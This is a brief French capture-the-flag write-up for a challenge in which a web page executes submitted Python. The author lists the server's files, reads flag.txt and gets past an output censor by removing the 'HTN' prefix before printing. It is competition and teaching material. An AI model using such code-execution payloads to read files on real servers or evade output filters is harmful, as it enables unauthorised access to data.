

# Pyterpreter no filter



## Challenge :

On a un site, et on veut le flag, c'est tout.

## Stratégie :

On peut déjà regarder les fichiers :

```py
import os
print(os.listdir())

> ['__pycache__', 'code_file', 'templates', 'static', 'app.py', 'flag.txt', 'requirements.txt']
```

Ah ! Un fichier intéressant, lisons-le :

```py
f = open("flag.txt")
print(f.readlines())

> ['<FLAG_CENSORED>']
```

Mince... Si seulement on pouvait résoudre ça... :

```py
f = open("flag.txt")
print(str(f.readlines()).replace("HTN", ""))

> ['{fauxflag}']
```